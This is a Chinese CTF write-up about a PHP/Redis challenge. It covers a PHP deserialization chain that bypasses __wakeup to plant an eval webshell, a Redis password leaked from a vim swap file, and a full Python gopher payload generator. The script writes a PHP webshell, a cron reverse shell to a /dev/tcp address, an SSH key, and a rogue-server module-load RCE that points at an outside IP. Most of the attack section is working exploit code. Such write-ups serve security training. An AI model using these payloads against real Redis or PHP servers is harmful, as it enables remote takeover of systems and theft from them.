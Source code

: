 tags:: CTF/Redis

- # 思路
	- 绕过wakeup实现POP
	- ~~使用Redis主从复制获取root~~使用蚁剑绕过disable_function
- # 绕过wakeup实现POP
	- 题目判断了序列化字符串中类的字段数是否为1，而wakeup绕过只需要类的字段数和实际的字段数不同
	- 我们可以构建两个字段，然后将字段数改为1来绕过wakeup
	- ```php
	  $o = new B();
	  $o -> a = new A();
	  $o -> a -> code = 'eval($_POST[data]);';
	  $o -> a -> b = "114514";
	  
	  $s = serialize($o);
	  $s = str_replace('"A":2:', '"A":1:', $s);
	  preg_match_all('/"[BA]":(.*?):/s',$s,$result);
	  echo "<br>payload: <br>";
	  echo urlencode($s);
	  ```
- # 使用蚁剑绕过disable_function
	- RT，安装相应插件即可执行任意linux shell命令，在根目录看到flag
- # 使用Redis主从复制获取root
	- 看到config.php.swp
		- ```shell
		  # user @ Hack in ~/toolkit/burst_kit/test on git:master x .venv [10:18:56] 
		  $ strings .config.php.swp 
		  b0VIM 8.0
		  ruozhi
		  DESKTOP-O3MVQS3
		  /mnt/c/Users/adim/Desktop/a.php
		  3210
		  #"! 
		  define("REDIS_PASS","you_cannot_guess_it");
		  define("DB_DATABASE","test");
		  define("DB_PASSWOrd","");
		  define("DB_USERNAME","root");
		  define("DB_HOST","localhost");
		  <?php
		  ```
	- 使用[Redis Rogue Server](https://github.com/Dliv3/redis-rogue-server)作为服务端，[这里](https://www.secpulse.com/archives/132215.html)的脚本的修改版（ ((6478166b-ea87-42d3-b282-45bd4bb3d831)) ）作为payload生成器
	- 在脚本中填写相关字段生成payload，在VPS上部署rouge server并将附带的exp.so复制到/tmp下，最后将payload传上目标即可
- # 脚本
	- redis payload生成的脚本
	  id:: 6478166b-ea87-42d3-b282-45bd4bb3d831
		- ```python
		  #!/usr/local/bin python
		  # coding=utf8
		  
		  try:
		      from urllib import quote
		  except:
		      from urllib.parse import quote
		  
		  
		  def generate_shell(filename, path, passwd, payload):
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_reverse(filename, path, passwd, payload):  # centos
		  
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_sshkey(filename, path, passwd, payload):
		      cmd = ["flushall",
		             "set 1 {}".format(payload),
		             "config set dir {}".format(path),
		             "config set dbfilename {}".format(filename),
		             "save"
		             ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def generate_rce(lhost, lport, passwd, command="cat /etc/passwd"):
		      exp_filename = "exp.so"
		      cmd = [
		          "SLAVEOF {} {}".format(lhost, lport),
		          "CONFIG SET dir /tmp/",
		          "config set dbfilename {}".format(exp_filename),
		          "MODULE LOAD /tmp/{}".format(exp_filename),
		          "system.exec {}".format(command.replace(" ", "${IFS}")),
		          # "SLAVEOF NO ONE",
		          # "CONFIG SET dbfilename dump.rdb",
		          # "system.exec rm${IFS}/tmp/{}".format(exp_filename),
		          # "MODULE UNLOAD system",
		          "POST"
		      ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def rce_cleanup():
		      exp_filename = "exp.so"
		      cmd = [
		          "SLAVEOF NO ONE",
		          "CONFIG SET dbfilename dump.rdb",
		          "system.exec rm${IFS}/tmp/{}".format(exp_filename),
		          "MODULE UNLOAD system",
		          "POST"
		      ]
		      if passwd:
		          cmd.insert(0, "AUTH {}".format(passwd))
		      return cmd
		  
		  
		  def redis_format(arr):
		      CRLF = "\r\n"
		      redis_arr = arr.split(" ")
		      cmd = ""
		      cmd += "*" + str(len(redis_arr))
		      for x in redis_arr:
		          cmd += CRLF + "$" + str(len((x))) + CRLF + x
		      cmd += CRLF
		      return cmd
		  
		  
		  def generate_payload(ip, port, passwd, mode):
		      payload = "test"
		  
		      if mode == 0:
		          filename = "shell.php"
		          path = "/var/www/html"
		          shell = "\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
		  
		          cmd = generate_shell(filename, path, passwd, shell)
		  
		      elif mode == 1:
		          filename = "root"
		          path = "/var/spool/cron/"
		          shell = "\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.1.1/2333 0>&1\n\n"
		  
		          cmd = generate_reverse(filename, path, passwd, shell)
		  
		      elif mode == 2:
		          filename = "authorized_keys"
		          path = "/root/.ssh/"
		          pubkey = "\n\nssh-rsa "
		  
		          cmd = generate_sshkey(filename, path, passwd, pubkey)
		  
		      elif mode == 3:
		          # rogue server貌似需要将exp.so放在/tmp下
		          lhost = "198.98.53.82" # TODO: rogue server的IP
		          lport = "21000" # TODO: rogue server的端口号
		          command = "" # TODO: 此处运行shell command, 填写reverse shell的payload
		  
		          cmd = generate_rce(lhost, lport, passwd, command)
		  
		      elif mode == 31:
		          cmd = rce_cleanup()
		  
		      protocol = "gopher://"
		      payload = protocol + ip + ":" + port + "/_"
		  
		      for x in cmd:
		          payload += quote(redis_format(x))
		      return payload
		  
		  
		  if __name__ == "__main__":
		      # 0 for webshell ; 1 for re shell ; 2 for ssh key ; 3 for redis rce ; 31 for rce clean up
		      # suggest cleaning up when mode 3 used
		      mode = 3
		  
		      # need auth or not
		      passwd = "you_cannot_guess_it"
		  
		      ip = "127.0.0.1" # 目标的IP和端口
		      port = "6379"
		  
		      p = generate_payload(ip, port, passwd, mode)
		      print(p)
		  
		  ```